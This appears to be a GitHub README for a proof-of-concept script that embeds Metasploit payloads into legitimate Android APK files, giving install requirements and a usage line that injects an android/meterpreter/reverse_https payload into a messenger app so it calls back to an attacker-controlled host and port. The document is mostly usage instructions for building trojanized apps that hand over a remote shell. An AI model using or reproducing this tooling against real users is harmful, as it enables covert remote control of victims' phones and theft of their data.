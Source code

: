 # metasploit-apk-embed-payload
Embed a Metasploit Payload in an Original .Apk File
<br />
> I choose a lazy person to do a hard job. Because a lazy person will find an easy way to do it.
 
  — [Bill Gates](http://www.goodreads.com/quotes/568877-i-choose-a-lazy-person-to-do-a-hard-job)
 
**This script is a POC for injecting metasploit payloads on arbitrary APKs and Result of [How to Embed a Metasploit Payload in an Original .Apk File](http://null-byte.wonderhowto.com/how-to/embed-metasploit-payload-original-apk-file-0166901/) Lesson**
**Authored by timwr, Jack64 , Updated by [xC0d3rZ](https://xc0d3rz.github.io/whoaim)**
###Installation
```bash
 gem install bundler
 bundler install
``` 
###Requirements 
 
 1. Ruby (**> 1.8.7**).
 2. Android SDK(*** For injection ***)
 
###Warring 
Don't edit or remove **embed_tools** folder.
Don't remove or edit **tmp/*** folder until script finish Embedding 
###Usage
```bash
./run [target.apk] [msfvenom options]
```
<br>
e.g
```bash
./run messenger.apk -p android/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=8443
```


